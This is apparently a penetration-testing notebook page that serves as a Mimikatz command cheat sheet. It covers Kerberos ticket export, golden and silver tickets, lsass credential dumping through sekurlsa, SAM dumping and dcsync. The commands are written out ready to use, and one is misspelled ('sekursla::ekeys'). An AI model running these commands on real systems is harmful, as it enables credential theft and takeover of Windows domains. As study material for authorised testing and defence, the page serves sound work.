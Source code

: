 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

- Used to harvest credentials from a windows machine.
- Has two additional components:
	- `Mimidrv`: driver that interacts with windows kernel
	- `Mimilib`: Bypass applocker, auth package/SSP etc.
- Runs with:
	- `Administrator` with `Privilege::debug` mode
	- `SYSTEM` privilege

# Kerberos
### ask
```bash
kerberos::ask
```
### list
- Lists or exports TGTs and STs from the current session
```powershell
kerberos::list # Lists the tickets
kerberos::list /export # Export the tickets to files
```
### purge
- purge all TGTs and STs from the current session.
```powershell
kerberos::purge
```
### tgt
- Prints information about the TGT from current session
```powershell
kerberos::tgt
```
### golden
[Golden Tickets](TechLexicon/Penetration%20Testing/Exploitation/Active%20Directory/Initial%20Foothold/Kerberos.md#Golden%20Tickets)
- Create golden tickets from krbtgt's NTLM hash or Kerberos keys.
### silver
- Create silver ticket from a service's NTLM hash or Kerberos keys.

# SekurLSA
Dumps keys, password hashes, pin codes from protected memory of lsass.exe proccess.
Rights required:
- SYSTEM
- Administrator with debug privilege (privilege::debug)
### backupkeys
- get backup master keys.
```powershell
sekurlsa::backupkey
```
### credman
- Lists credential manager
```powershell
sekurlsa::credman
```
### dpapi
[DPAPI](DPAPI.md)
- Lists cached master keys
```powershell
sekurlsa::dpapi
```
### ekeys
Lists kerberos encryption keys
```powershell
sekursla::ekeys
```
# LSAdump
### sam
- Dumps the sam database directory from memory or offline using the sam and system registry hives.
```powershell
# On target machine
lsadump::sam
# Using system and sam hives
lsadump::sam /system:system.hiv /sam:sam.hiv
```
### dcsync
- Perform dc-sync on the domain controller to dump ntds credentails, keys etc.
```powershell
# Dump credential of a specidic user
lsadump::dcsync /domain:mydomain.local /user:dr.dragon
# Dump all credentials
lsadump::dcsync /domain:mydomain.local /all
```